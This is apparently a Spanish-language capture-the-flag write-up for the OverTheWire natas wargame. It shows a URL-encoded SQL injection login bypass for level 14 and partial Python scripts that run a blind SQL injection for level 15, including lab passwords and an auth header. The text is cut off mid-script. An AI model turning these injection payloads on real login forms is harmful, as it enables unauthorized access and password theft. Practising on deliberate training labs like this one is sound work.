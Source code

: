 http://natas14.natas.labs.overthewire.org/?debug&username=user%22or%20%221%22=%221&password=asdf%22or%20%221%22=%221&debug

 Executing query: SELECT * from users where username="user"or "1"="1" and password="asdf"or "1"="1"
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

# natas15

Blind SQL injection. Toca hacer fuerza bruta, mejor con python.

Hago una ñapa con un script en dos pasadas. En la primera, miro qué caracteres hay mediante una consulta like %char%:

```
#!/usr/bin/env python
import requests

# 'username': "natas15"
# 'password': "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

def is_true(p):
    url = "http://natas15.natas.labs.overthewire.org?debug"
    headers = {"Authorization": "Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=="}
    payload = {'username': 'natas16" and password like binary "%' + p +'%', 'debug': 'yes'}

    r = requests.post(url, data=payload, headers=headers )

    # print r.text
    if "exists" in r.text:
        return True

# 1st pass
chars = ""
for i in map(chr, range(65, 91) + range(97,123) + range(48, 58)):
   if is_true(i):
       chars = chars + i
print chars
```

Con esto construyo la lista de caracteres que aparecen en la password: `chars = "BEHINORWacehijmnpqtw03569"`

Ahora puedo hacer una segunda pasada iterando por la lista de esos caracteres:

```
#!/usr/bin/env python
import requests

# 'username': "natas15"
# 'password': "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

def is_true(p):
    url = "http://natas15.natas.labs.overthewire.org?debug"
    headers = {"Authorization": "Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=="}
    # payload = {'username': 'natas16" and password like binary "%' + p +'%', 'debug': 'yes'}
    payload = {'username': 'natas16" and password like binary "' + p +'%', 'debug': 'yes'}

    r = requests.post(url, data=payload, headers=headers )

    # print r.text
    if "exists" in r.text:
        return True

# 1st pass
# chars = ""
# for i in map(chr, range(65, 91) + range(97,123) + range(48, 58)):
```